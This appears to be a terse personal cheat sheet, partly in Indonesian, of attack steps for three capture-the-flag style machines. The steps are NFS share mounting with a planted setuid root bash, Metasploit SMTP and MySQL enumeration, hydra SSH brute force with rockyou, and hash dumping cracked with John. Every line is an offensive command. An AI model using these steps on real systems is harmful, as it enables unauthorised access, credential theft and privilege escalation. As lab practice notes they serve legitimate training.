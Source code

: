 # 1. nfs :
-> sudo nmap -T4 -p- --min-rate 1000 ip
-> showmount -e ip 
-> sudo mount -t nfs 10.10.231.60:/home /tmp/mount/ -nolock
-> cd /tmp/mount/username -> wget bash -> chmod +x bash -> chown root bash -> chmod +s bash 
-> ssh -i id_rsa username@ip -> ./bash -p



# 2. smtp :
-> sudo nmap -T4 -p- --min-rate 1000 ip
-> msfconsole -> search smtp_version -> use 0 -> options -> set rhosts ip -> exploit
-> system mail name: polosmtp.home
-> mail transfer agent: postfix
-> search smtp_enum -> use 0 -> options -> set user_file /wordlistmu/payload.txt -> exploit
-> hydra -t 16 -l usernamehasilmsf -P /usr/share/wordlists/rockyou.txt -vV -f ip ssh

# 3. sql :
-> sudo nmap -T4 -p- --min-rate 1000 ip
-> mysql -h ip -u root -p : password = password
-> msfconsole -> search mysql_sql -> use -> options -> urutin dari atas ke bawah yg dibutuhin 
-> exploit -> options -> set sql "show databases"
-> uname: root -> pass: password
-> ikuti module2 msf nya -> ampe dump hash user 
-> cari user yg namanya ga default -> carl -> taruh di hash.txt carl + hash nya
-> john hash.txt -> login ssh pakai uname carl ip dan pass nya -> cat flag
